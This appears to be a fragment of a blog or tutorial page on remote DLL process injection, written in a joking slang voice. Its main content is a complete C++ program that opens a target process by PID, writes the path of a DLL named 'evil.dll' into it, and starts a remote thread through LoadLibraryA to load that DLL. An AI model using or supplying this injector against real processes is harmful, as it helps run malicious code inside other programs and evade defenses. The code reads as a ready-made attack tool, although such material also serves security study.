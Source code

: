 ![](/assets/images/go-remote-dll-process-injection/example-2-error.png)  

## WHut?!!

**hey, They did it againz! Its OK, Timmys gotchu, bruv...**  

```cpp  
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  FARPROC lb = GetProcAddress(hKernel32, "LoadLibraryA");
  VOID* lbVoid = reinterpret_cast<VOID*>(lb);  // Cast FARPROC to void pointer

  // parse process ID
  if (atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lbVoid, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```  

